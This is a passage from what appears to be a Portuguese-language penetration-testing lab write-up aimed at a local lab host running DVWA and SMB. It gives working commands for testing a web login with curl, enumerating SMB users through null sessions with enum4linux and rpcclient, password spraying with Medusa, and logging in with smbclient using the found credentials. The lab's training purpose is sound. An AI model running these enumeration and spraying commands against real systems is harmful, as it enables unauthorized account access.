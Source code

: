 ```bash
```

### Validação de Acesso
```bash
# Teste manual de login
curl -X POST http://192.168.56.101/dvwa/login.php \
  -d "username=admin&password=password&Login=Login" \
  -c cookies.txt -v

# Verificar se login foi bem-sucedido
curl http://192.168.56.101/dvwa/index.php -b cookies.txt | grep "Welcome"
```

---
<a id="password-spraying-em-smb"></a>
## 🔍 Password Spraying em SMB com Medusa

### Enumeração de Usuários
```bash
# 1. Enumeração SMB com enum4linux
enum4linux -U 192.168.56.101

# 2. Enumeração com rpcclient
rpcclient -U "" -N 192.168.56.101 -c "enumdomusers"

# 3. Extrair usuários para arquivo
rpcclient -U "" -N 192.168.56.101 -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users_smb.txt
```

### Password Spraying com Medusa
```bash
# 1. Password spraying com Medusa SMB
medusa -h 192.168.56.101 -U users_smb.txt -P passwords_spray.txt -M smbnt -t 2 -v 6

# 2. Spraying com uma senha específica
echo "Spring2024!" > single_pass.txt
medusa -h 192.168.56.101 -U users_smb.txt -P single_pass.txt -M smbnt -v 6 -f

# 3. Ataque com diferentes combinações
medusa -h 192.168.56.101 -U users_smb.txt -P passwords_spray.txt -M smbnt -e ns -v 6
```

### Validação de Acesso SMB
```bash
# Testar acesso com credenciais encontradas
smbclient -L //192.168.56.101 -U administrator%Spring2024!

# Acesso a compartilhamento específico
smbclient //192.168.56.101/ipc$ -U administrator%Spring2024!
```

---